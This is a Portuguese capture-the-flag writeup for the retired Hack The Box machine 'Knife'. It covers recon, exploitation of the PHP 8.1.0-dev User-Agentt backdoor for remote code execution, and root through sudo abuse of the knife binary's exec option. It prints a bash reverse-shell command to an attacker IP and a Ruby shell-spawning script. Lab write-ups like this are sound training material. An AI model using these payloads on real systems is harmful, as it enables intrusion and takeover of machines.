 ```yaml
---
title: HTB Knife Writeup
author: Hastur
date: 2021-09-03 21:00:00 -0300
categories: [Writeups, Hack The Box - Retired]
tags: [HTB, Retired, Linux]
thumb: /htb/htb-knife-logo.png
---
```


<img src="/htb/htb-knife-logo.png">

<br>


| Nome | Knife       |
|------|-------------|
|IP    | 10.10.10.242|
|Pontos| 20          |
|OS    | Linux       |
|Nível | Easy        |

<br>

## RECON

### Nmap
```
┌──(hastur㉿hastur)-[~]
└─$ sudo nmap -v -sCV -p- -Pn -O 10.10.10.242 --min-rate=512 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea

```
Encontramos somente as portas 22 e 80 abertas. Vamos começar pela porta 80.

### Porta 80

<img src="/htb/htb-knife-1.png">

Apenas uma página simples sem links para seguir.

A varredura com gobuster também não trouxe nada relevante.

Vamos tentar o whatweb para obter mais informações.

```
┌──(hastur㉿hastur)-[~]
└─$ whatweb http://10.10.10.242/
http://10.10.10.242/ [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

Conseguimos identificar que o server roda em PHP na versão "PHP/8.1.0-dev", vamos procurar algum exploit.

```
┌──(hastur㉿hastur)-[~]
└─$ searchsploit "PHP 8.1.0-dev" 
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                       | php/webapps/49933.py
```
Esta versão do PHP possui uma vulnerabilidade que permite execução de código remoto via manipulação do user-agent.

Vamos copiar o exploit para nosso diretório e nomeá-lo como "exploit.py" para testá-lo.

```
┌──(hastur㉿hastur)-[~/knife]
└─$ python3 exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ id
uid=1000(james) gid=1000(james) groups=1000(james)

$ ls -la
total 84
drwxr-xr-x  20 root root  4096 May 18 13:25 .
drwxr-xr-x  20 root root  4096 May 18 13:25 ..
lrwxrwxrwx   1 root root     7 Feb  1  2021 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Jul 23 13:37 boot
drwxr-xr-x   2 root root  4096 May  6 14:10 cdrom
drwxr-xr-x  19 root root  4020 Sep  3 04:33 dev
drwxr-xr-x  99 root root  4096 May 18 13:25 etc
drwxr-xr-x   3 root root  4096 May  6 14:44 home
lrwxrwxrwx   1 root root     7 Feb  1  2021 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Feb  1  2021 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Feb  1  2021 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Feb  1  2021 libx32 -> usr/libx32
drwx------   2 root root 16384 May  6 14:08 lost+found
drwxr-xr-x   2 root root  4096 May 18 13:20 media
drwxr-xr-x   2 root root  4096 May 18 13:20 mnt
drwxr-xr-x   5 root root  4096 May 18 13:20 opt
dr-xr-xr-x 358 root root     0 Sep  3 04:32 proc
drwx------   7 root root  4096 May 18 13:26 root
drwxr-xr-x  27 root root   820 Sep  3 16:47 run
lrwxrwxrwx   1 root root     8 Feb  1  2021 sbin -> usr/sbin
drwxr-xr-x   6 root root  4096 May 18 13:20 snap
drwxr-xr-x   2 root root  4096 Feb  1  2021 srv
dr-xr-xr-x  13 root root     0 Sep  3 04:32 sys
drwxrwxrwt  16 root root 12288 Sep  4 00:00 tmp
drwxr-xr-x  15 root root  4096 May 18 13:20 usr
drwxr-xr-x  14 root root  4096 May  9 04:22 var

$ 

```

Ao executarmos o exploit, temos uma versão bem resumida de RCE em forma de bash.

Para podermos explorar de forma efetiva, precisamos de um tty shell, vamos iniciar um netcat ouvindo a conexão reversa.

```
┌──(hastur㉿hastur)-[~/knife]
└─$ nc -vlnp 8443
listening on [any] 8443 ...
```

Agora vamos enviar um payload no terminal do RCE.

```
┌──(hastur㉿hastur)-[~/knife]
└─$ python3 exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ /bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.130/8443 0>&1"
```

Checando no netcat, conseguimos um shell.

<img src="/htb/htb-knife-2.png">

E dentro do diretório do usuário "james", conseguimos flag do usuário.

<img src="/htb/htb-knife-3.png">
<br>
## ESCALAÇÃO DE PRIVILÉGIOS

Já dentro do server, vamos fazer a enumeração local, com o comando `sudo -l`, encontramos algo interessante:

<img src="/htb/htb-knife-4.png">

O usuário tem permissão de executar `/usr/bin/knife` com privilégios de administrador sem uso de senha, vamos enumerar este binário.

<img src="/htb/htb-knife-5.png">

Quando enumeramos o diretório real do binário, podemos ver que se trata de um diretório de instalação do ruby.

<img src="/htb/htb-knife-6.png">

Ao tentar executar o programa, ele nos retora uma grande lista de opções de argumento, entre elas uma bem interessante:

<img src="/htb/htb-knife-7.png">

Isso significa que podemos executar scripts em ruby, vamos voltar para o diretorio do usuário james e criar um script.

```
james@knife:~$ pwd                                   
pwd
/home/james
james@knife:~$ echo 'exec "/bin/bash -i"' > hastur.rb
```
Ao executar `sudo /usr/bub/knife exec hastur.rb` temos nosso shell com root e podemos enumerar a flag.

<img src="/htb/htb-knife-8.png">

E comprometemos o server!!
<br>

<img src="/htb/hackerman.gif">
<br>
### Referências

| Vulnerabilidade                           | Url                                                                                                             |
|-------------------------------------------|-----------------------------------------------------------------------------------------------------------------|
| PHP 8.1.0-dev development version backdoor| [https://github.com/flast101/php-8.1.0-dev-backdoor-rce](https://github.com/flast101/php-8.1.0-dev-backdoor-rce)|


